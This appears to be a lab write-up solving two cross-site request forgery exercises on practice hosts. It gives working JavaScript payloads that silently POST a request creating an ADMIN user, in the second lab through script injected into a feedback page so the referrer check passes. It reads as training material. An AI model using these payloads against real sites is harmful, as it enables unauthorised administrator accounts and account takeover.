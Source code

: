 **Note:** with `<input type="hidden" name="submit"  value="">`  i got an error because the submt in not a function => `Uncaught TypeError: CSRForm.submit is not a function`.

 I resolved the error by including a hidden input with the name "submit[]" in the form. This allowed me to send the "submit" parameter as part of the request to `add_user.php`, which is a mandatory field. and also i could submit the form successfully.

 

**Another solution**

```html

<!DOCTYPE html>
<html>

<body bgcolor="#000000">
        <img src="hackerinside.jpg" />

<script type="text/javascript">
        var url = "http://1.csrf.labs/add_user.php";
        var params = "name=Smith&surname=Malice&email=malice%40hacker.site&role=ADMIN&submit=";
        var CSRF = new XMLHttpRequest();
        CSRF.open("POST", url, true);
        CSRF.withCredentials = true;
        CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        CSRF.send(params);
</script>
</body>
</html>
```





### Lab2

add this script in the feedback page.

```html
<script>

var url = "http://2.csrf.labs/add_user.php";
var params = "name=Smith&surname=Malice&email=malice%40hacker.site&role=ADMIN&submit=";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, true);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send (params);

</script>
```

here, the request of adding a new user should have a referrer header = "http://2.csrf.labs/". So the PoC from hacker.site will not work and we need to issue the request from the vulnerable website using XSS in the feedback page.
